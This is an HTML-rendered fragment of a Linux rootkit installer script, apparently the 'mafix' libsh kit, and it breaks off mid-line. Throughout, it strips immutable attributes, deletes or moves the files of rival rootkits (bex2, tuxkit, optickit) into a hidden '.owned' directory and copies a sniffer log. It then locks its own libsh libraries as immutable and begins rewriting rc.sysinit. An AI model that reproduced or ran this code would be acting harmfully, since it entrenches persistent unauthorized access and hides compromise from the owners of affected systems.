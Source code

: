 then</p><p>&nbsp; &nbsp;chattr -isa /usr/info/termcap.info-5.gz; rm -rf /usr/info/termcap.info-5.gz</p><p>&nbsp; &nbsp;chattr -isa /usr/include/audit.h; rm -rf /usr/include/audit.h</p><p>&nbsp; &nbsp;chattr -isa /usr/include/bex</p><p>&nbsp; &nbsp;chattr -isa /usr/include/bex/*</p><p>&nbsp; &nbsp;mv /usr/include/bex/ $HOMEDIR/.owned/bex2</p><p>&nbsp; &nbsp;if [ -f /var/log/tcp.log ]; then</p><p>&nbsp; &nbsp; &nbsp; chattr -isa /var/log/tcp.log</p><p>&nbsp; &nbsp; &nbsp; cp /var/log/tcp.log $HOMEDIR/.owned/bex2/snifflog</p><p>&nbsp; &nbsp;fi</p><p>&nbsp; &nbsp;chattr -isa /usr/bin/sshd2 &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;rm -rf /usr/bin/sshd2 &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} bex2 found and owned!{RES}&quot;</p><p>fi</p><p>&nbsp;</p><p>if [ -d /dev/tux/ ]; then</p><p>&nbsp; &nbsp;chattr -isa /usr/bin/xsf &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;rm -rf /usr/bin/xsf &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;chattr -isa /usr/bin/xchk &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;rm -rf /usr/bin/xchk &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;chattr -isa /dev/tux &gt;/dev/null 2&gt;&amp;1</p><p>&nbsp; &nbsp;mv /dev/tux $HOMEDIR/.owned/tuxkit</p><p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} tuxkit found and owned!{RES}&quot;</p><p>fi</p><p>&nbsp;</p><p>if [ -f /usr/bin/ssh2d ]; then</p><p>&nbsp; &nbsp;chattr -isa /usr/bin/ssh2d</p><p>&nbsp; &nbsp;rm -rf /usr/bin/ssh2d</p><p>&nbsp; &nbsp;chattr -isa /lib/security/.config/</p><p>&nbsp; &nbsp;chattr -isa /lib/security/.config/*</p><p>&nbsp; &nbsp;rm -rf /lib/security/.config</p><p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} optickit found and owned!{RES}&quot;</p><p>fi</p><p>&nbsp;</p><p>if [ -f /etc/ld.so.hash ]; then</p><p>&nbsp; &nbsp;chattr -isa /etc/ld.so.hash</p><p>&nbsp; &nbsp;rm -rf /etc/ld.so.hash</p><p>fi</p><p>&nbsp;</p><p>&nbsp;</p><p>chattr +isa /usr/lib/libsh</p><p>chattr +isa /lib/libsh.so</p><p>&nbsp;</p><p># GREPPING SHITZ FROM rc.sysinit and inetd.conf</p><p>&nbsp;</p><p>if [ -f /etc/rc.d/rc.sysinit ]; then</p><p>&nbsp; &nbsp;chattr -isa /etc/rc.d/rc.sysinit</p><p>&nbsp; &nbsp;cat /etc/rc.d/rc.sysinit | grep -v &quot;# Xntps (NTPv3 daemon) startup..&quot;| grep -v &quot;/us